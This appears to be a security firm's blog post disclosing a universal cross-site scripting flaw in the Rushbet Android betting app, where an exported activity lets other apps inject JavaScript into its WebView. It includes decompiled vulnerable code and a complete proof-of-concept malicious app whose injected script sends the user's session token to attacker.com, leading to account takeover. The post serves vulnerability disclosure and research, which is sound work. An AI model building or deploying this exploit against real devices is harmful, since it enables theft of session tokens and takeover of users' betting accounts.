 ```yaml
---
slug: uxss-to-account-takeover-rushbet/
title: UXSS to Account Takeover in Rushbet
date: 2023-01-12
subtitle: Injecting JS into one site is harmful, into all, lethal
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1673554228/blog/uxss-to-account-takeover-rushbet/cover_rushbet.webp
alt: Photo by sebastiaan stam on Unsplash
description: In this blog post, we present in detail a vulnerability we discovered in Rushbet v2022.23.1-b490616d, along with the steps to follow to replicate the exploit.
keywords: Rushbet, Mobile Application, Android, Session, Vulnerability, Exploit, Cross Site Scripting, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/RChZT-JlI9g
---
```


During the 2022 FIFA World Cup,
many people were betting their money in support of their preferred teams.
With this in mind,
I researched which mobile sports betting apps were the most used.

Among all those apps,
I chose Rushbet v2022.23.1-b490616d.
Researching this app,
I discovered that it is possible to steal a user's session token
through a malicious app previously installed on their device.

In this blog post,
I will explain this vulnerability in detail,
where it is found in the code
and what steps need to be followed to replicate the exploit.

## Where is this vulnerability in Rushbet?

Examining the AndroidManifest.xml file,
I found the following exported activity:

```xml
<activity android:theme="@style/AppTheme" android:name="com.sugarhouse.casino.MainActivity" android:exported="true" android:launchMode="singleTop" android:configChanges="fontScale|smallestScreenSize|screenSize|uiMode|screenLayout|orientation|keyboardHidden|keyboard">
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="http" android:host="@string/host_url" android:path="/"/>
        <data android:scheme="http" android:host="@string/host_url" android:pathPrefix="/?"/>
        <data android:scheme="https" android:host="@string/host_url" android:pathPrefix="/?"/>
        <data android:scheme="https" android:host="@string/host_url" android:path="/"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="@string/intent_filter_scheme" android:host="@string/intent_filter_host" android:path="/"/>
        <data android:scheme="@string/intent_filter_scheme_cage" android:host="@string/intent_filter_host_cage"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.MY_PACKAGE_REPLACED"/>
    </intent-filter>
</activity>
```

This means
that any app installed on a mobile device
with that vulnerable version of Rushbet
can interact with this activity.

## MainActivity

Once I noticed that,
I went to the exported activity to see what it did and how.
Here,
the application assigns the URL that I send in the intent data
in the variable `this.loadWebviewUrl`:

```java
public final class MainActivity extends Hilt_MainActivity implements [...] {
    // These properties will be used in the onNewIntent listener
    public static final String INTENT_ACTION_EVALUATE_SCRIPT = "Action.EvaluateScript";
    public static final String INTENT_ACTION_EVALUATE_SCRIPT_KEY = "KeyScript";

    [...]

    public void onCreate(Bundle bundle) {
        [...]
        super.onCreate(bundle);
        [...]
        if (activityMainBinding != null) {
            setContentView(activityMainBinding.getRoot());
            [...]
            setWebView();
            [...]
            if (activityMainBinding2 != null) {
                cookieManager.setAcceptThirdPartyCookies(activityMainBinding2.contentMain.activityMainWebview, true);
                Intent intent = getIntent();
                if (intent != null && intent.getData() != null && vf.l.v0(String.valueOf(intent.getData()), HttpHost.DEFAULT_SCHEME_NAME, false)) {
                    this.loadWebviewUrl = String.valueOf(intent.getData());
                }
                [...]
            }
            [...]
        }
        [...]
    }
    [...]
}
```

With the above,
we know
that we can load arbitrary URLs in the WebView:

<image-block>

![“Load arbitrary URLs in the Rushbet WebView”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673554439/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-a.webp)

</image-block>

This is a good catch,
but it’s got a lot more potential.
I went on
to find the biggest impact this error can have.
Many Android applications allow updating the state
of a previously launched activity
through the `onNewIntent` listener:

```java
public void onNewIntent(Intent intent) {
    String str;
    super.onNewIntent(intent);

    if (intent != null) {
        str = intent.getAction();
    } else {
        str = null;
    }

    if (hd.h.a(str, INTENT_ACTION_EVALUATE_SCRIPT)) {
        String stringExtra = intent.getStringExtra(INTENT_ACTION_EVALUATE_SCRIPT_KEY);
        if (stringExtra == null) {
            return;
        }
        onEvaluateScript(stringExtra);
        return;
    }
    [...]
}
```

By analyzing the logic of the `onEvaluateScript` listener,
I realized that I can inject malicious JS
into the domain previously loaded in the WebView:

```java
public final void onEvaluateScript(String str) {
    try {
        ActivityMainBinding activityMainBinding = this.binding;
        if (activityMainBinding != null) {
            WebView webView = activityMainBinding.contentMain.activityMainWebview;
            // Inject malicious JS here
            webView.evaluateJavascript("try{" + str + "} catch (err) {}", null);
            return;
        }
        hd.h.m("binding");
        throw null;
    } catch (RuntimeException e10) {
        vh.a.f18108a.b(e10, "Failed to evaluateScript already on UI thread", new Object[0]);
    }
}
```

We have before our eyes a universal XSS.
This means we can execute malicious JS code on arbitrary domains.
To activate the `onNewIntent` listener,
we would only need
to add the `Handler().postDelayed()` instruction to our exploit.
This instruction updates the state of the previously launched activity.
An example of this is shown below:

<image-block>

![“Add instruction on Rushbet”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673554440/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-b.webp)

</image-block>

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/ethical-hacking/"
title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>
</div>

## Exploit

To exploit this vulnerability
we must create a malicious application like the following:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <application
        android:allowBackup="false"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:theme="@style/Theme.Badapp"
        tools:targetApi="31">

        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:label="@string/app_name"
            android:theme="@style/Theme.Badapp.NoActionBar">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

## POC of account takeover in Rushbet

The next video shows how to exploit this vulnerability
to obtain the user's sessionID
and then use it to access their account:

<video-block>

<iframe
  src="https://user-images.githubusercontent.com/51862990/204892183-b269011b-8211-40c2-87b0-37b320307180.mp4"
  frameborder="0"
  allowfullscreen
>
</iframe>

</video-block>

And here's a screenshot of our end result:

<image-block>

![“Account takeover in Rushbet”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673557293/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-c.webp)

</image-block>

## Conclusion

As evidenced in this blog post,
an unauthenticated remote attacker can steal the account
of any user logged into the Rushbet v2022.23.1-b490616d mobile app
for Android
via a malicious app installed on their device.

At Fluid Attacks,
we search for complex vulnerabilities in software.
You can secure your technology
by starting your [21-day free trial](https://app.fluidattacks.com/SignUp)
of our automated security testing.
Upgrade at any time
to include assessments by our ethical hackers.

